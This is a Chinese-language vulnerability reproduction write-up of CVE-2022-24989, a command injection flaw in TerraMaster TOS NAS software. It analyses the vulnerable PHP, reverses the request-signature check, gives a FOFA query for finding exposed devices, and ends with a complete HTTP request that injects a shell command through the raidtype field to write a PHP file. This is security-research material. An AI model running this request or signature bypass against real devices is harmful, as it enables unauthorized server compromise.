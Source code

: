# TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## FOFA

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

我们查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![img](../../../.vuepress/public/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](../../../.vuepress/public/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![img](../../../.vuepress/public/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

回到 `mobile.class.php` 文件开头的定义

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![img](../../../.vuepress/public/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![img](../../../.vuepress/public/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](../../../.vuepress/public/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![img](../../../.vuepress/public/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](../../../.vuepress/public/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

跟进方法 `get_mac_addr` 

![img](../../../.vuepress/public/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![img](../../../.vuepress/public/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![img](../../../.vuepress/public/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 **CVE-2022-24990** 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![image-20220320004751660](../../../.vuepress/public/img/image-20220320004751660.png)

在发送请求包写入 php恶意文件

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](../../../.vuepress/public/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

访问写入的文件

![img](../../../.vuepress/public/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)